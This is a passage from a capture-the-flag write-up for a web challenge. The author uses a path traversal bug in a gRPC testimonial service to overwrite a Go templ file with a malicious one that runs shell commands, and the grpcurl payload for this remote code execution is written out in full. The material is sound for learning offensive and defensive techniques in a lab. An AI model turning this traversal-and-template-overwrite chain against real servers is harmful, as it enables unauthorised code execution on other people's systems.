 We can check the local docker instance.

```bash
docker exec -it web_testimonial bash

~ # ls /
bin                 flagc5f171e16f.txt  mnt                 sbin                usr
challenge           go                  opt                 srv                 var
dev                 home                proc                sys
entrypoint.sh       lib                 root                test.txt
etc                 media               run                 tmp
```

It is! The next part took me a long time - trying to work out how to gain RCE. I was mostly trying to inject payloads into the page, to no avail. In the end, I used the path traversal vuln to replace `index.templ` with a malicious one.

```go
package home

import (
    "os/exec"
    "strings"
)

func hack() []string {
    output, _ := exec.Command("ls", "/").CombinedOutput()
    lines := strings.Fields(string(output))
    return lines
}

templ Index() {
    @template(hack())
}

templ template(items []string) {
    for _, item := range items {
        {item}
    }
}
```

Ask ChatGPT to escape it for me ofc 😁

```bash
./grpcurl -plaintext -d '{"customer": "../../view/home/index.templ", "testimonial": "package home\n\nimport (\n\t\"os/exec\"\n\t\"strings\"\n)\n\nfunc hack() []string {\n\toutput, _ := exec.Command(\"ls\", \"/\").CombinedOutput()\n\tlines := strings.Fields(string(output))\n\treturn lines\n}\n\ntempl Index() {\n\t@template(hack())\n}\n\ntempl template(items []string) {\n\tfor _, item := range items {\n\t\t{item}\n\t}\n}" }' -import-path challenge/pb/ -proto ptypes.proto 127.0.0.1:50045 RickyService.SubmitTestimonial

{
  "message": "Testimonial submitted successfully"
}
```
